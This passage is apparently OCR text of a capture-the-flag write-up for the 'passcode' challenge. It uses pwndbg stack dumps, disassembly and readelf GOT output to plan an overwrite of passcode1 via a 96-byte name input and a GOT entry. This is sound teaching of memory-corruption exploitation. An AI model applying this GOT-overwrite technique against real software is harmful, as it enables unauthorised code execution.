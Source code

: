 ```bash
05:0014│-06c 0xfff6a89c ◂— 'AAAA'
06:0018│-068 0xfff6a8a0 ◂— 0
07:001c│-064 0xfff6a8a4 ◂— 0x28 /* '(' */
────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────
 ► 0 0x804933a welcome+72
   1 0x8049395 main+49
   2 0xf7cb0519 __libc_start_call_main+121
   3 0xf7cb05f3 __libc_start_main+147
   4 0x804910c _start+44
─────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x/s $ebp-0x70
0xfff6a898:     "AAAAAAAA"
pwndbg> x/20wx $ebp-0x70
0xfff6a898:     0x41414141      0x41414141      0x00000000      0x00000028
0xfff6a8a8:     0xf7d0e49d      0xf7eb7a60      0xf7eb9da0      0xf7eb9000
0xfff6a8b8:     0xfff6a8f8      0xf7d0242b      0xf7eb9da0      0x0000000a
0xfff6a8c8:     0x00000027      0xfff6aa48      0x00000000      0x000007d4
0xfff6a8d8:     0xf7eb9e3c      0x00000027      0xfff6a918      0xf7eeb004
pwndbg> 
```
- we can confirm that our name is stored at ebp-0x70, which is executed in this line:
```bash
0x08049324 <+50>:    lea    eax,[ebp-0x70]
```
- in login, we have similar lines around the other scanf calls
password1
```bash
0x0804921e <+40>:    push   DWORD PTR [ebp-0x10]
```
and password2
```bash
0x08049259 <+99>:    push   DWORD PTR [ebp-0xc]
```
- name (ebp-0x70) and password1(ebp-0x10) are p close in memory
    - 0x70-0x10 = 0x60 = 96 in decimal
    - passcode1 is within the 100 byte limit of name
    - if we type 96 characters into name, we can use the last 4 bytes to affect the data in passcode1
- we know that passcode1 incorrectly, takes the value of passcode1 as an address
    - currently passcode1 contains garbage data
- However, we found out that we can update the contents of passcode1 when scanf prompts us for a name (name and passcode within 100 bytes of each other on the stack)
- we can exploit this inserting a valid address into passcode1
    - when we enter passcode1, it wont use garbage data as an address, but rather the address we inserted ourselves
    - it will then update that address with the input we give it
    - the input we will give to scanf will be another address on the stack that we want to jump to
    - essentially, we are inserting our own code through the input
- we need to figure out where we want to overwrite
- we can use the GOT table using 'readelf -a passcode'
    - this section seems useful
```bash
Relocation section '.rel.plt' at offset 0x440 contains 10 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804c00c  00000107 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.34
0804c010  00000207 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804c014  00000307 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
0804c018  00000407 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804c01c  00000507 R_386_JUMP_SLOT   00000000   getegid@GLIBC_2.0
0804c020  00000607 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804c024  00000707 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
0804c028  00000907 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
0804c02c  00000b07 R_386_JUMP_SLOT   00000000   setregid@GLIBC_2.0
0804c030  00000c07 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
No processor specific unwind information to decode
```